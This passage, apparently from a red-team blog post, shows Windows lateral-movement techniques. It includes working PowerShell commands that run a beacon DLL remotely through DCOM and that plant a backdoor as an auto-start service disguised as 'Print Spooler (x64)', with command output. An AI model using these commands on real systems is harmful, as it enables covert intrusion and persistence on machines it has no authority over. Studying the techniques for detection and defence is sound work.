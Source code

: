 <video width="740" height="430" controls poster="/assets/img/20230815_living-off-the-foreign-land/WMI_Win32_Product_poster.png">
  <source src="/assets/img/20230815_living-off-the-foreign-land/WMI_Win32_Product.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>

A final example on direct execution of command-lines is execution via DCOM. There are various COM objects which are possible to initiate remotely and are able to execute command-lines. In this example the `IShellWindows` interface which exposes a `ShellExecute` function. The process executed through this interface is launched under the `explorer.exe` process. More examples of such COM interfaces can be found in the "Abusing COM & DCOM objects" article[^5].

```powershell
PS C:\> $c = [Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39', 'W10.ad.bitsadmin.com'))
PS C:\> $i = $c.Item()
PS C:\> $i.Document.Application.ShellExecute('C:\Windows\System32\rundll32.exe', '"C:\tmp\App Folder\beacon.dll",Start', 'C:\Windows\System32', $null, 0)
PS C:\>
```

These were the examples of direct execution. Besides direct execution, there are numerous ways to indirectly execute a command-line on a remote system of which in the following paragraphs some options are discussed.

### Services
Besides directly executing command-lines, services also provide a way to execute binaries on a system. These services can either be configured to automatically start on a future reboot, have a triggered start or can be started by requesting the service manager. Moreover, services on a remote system can be managed remotely which might allow an attacker to disable certain monitoring.

Services can either be managed through the command-line using `sc.exe` or the `*-Service` cmdlets or through the GUI using `services.msc`. Using respectively `sc.exe \\W10.ad.bitsadmin.com query` and `Get-Service -ComputerName W10.ad.bitsadmin.com` the services can be enumerated.

The following command-lines create a new legitimate-looking service which starts automatically upon startup of the computer.

```powershell
PS C:\> Copy-Item C:\tmp\backdoor.exe \\W10.ad.bitsadmin.com\admin$\System32\spoolsv64.exe
PS C:\> sc.exe \\W10.ad.bitsadmin.com create Spooler64 binPath= C:\Windows\System32\spoolsv64.exe start= auto DisplayName= "Print Spooler (x64)"
[SC] CreateService SUCCESS
PS C:\> sc.exe \\W10.ad.bitsadmin.com description Spooler64 "This service spools print jobs and handles interaction with the printer.  If you turn off this service, you won’t be able to print or see your printers."
[SC] ChangeServiceConfig2 SUCCESS
PS C:\> 
```

Optionally, this service can be started right away.

```powershell
PS C:\> sc.exe \\W10.ad.bitsadmin.com start Spooler64

SERVICE_NAME: Spooler64
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1076
        FLAGS              :

PS C:\>
```

[^1]: <https://lofl-project.github.io/>
[^2]: <https://blog.bitsadmin.com/dealing-with-large-bloodhound-datasets>
[^3]: <https://blog.bitsadmin.com/digging-for-secrets>
[^4]: <https://www.xyplorer.com/free.php>
[^5]: <https://www.exploit-db.com/docs/48767>
[^6]: <https://blog.bitsadmin.com/spying-on-users-using-rdp-shadowing>
[^7]: <https://github.com/BloodHoundAD/SharpHound>
[^8]: <https://github.com/ly4k/Certipy>
[^9]: <https://github.com/davehull/Kansa>
[^10]: <https://github.com/xjasonlyu/tun2socks/discussions/222>
[^11]: <https://github.com/0990/tun2socks/>
[^12]: <https://github.com/xjasonlyu/tun2socks/pull/235>
[^13]: <https://www.urbandictionary.com/define.php?term=LOFL>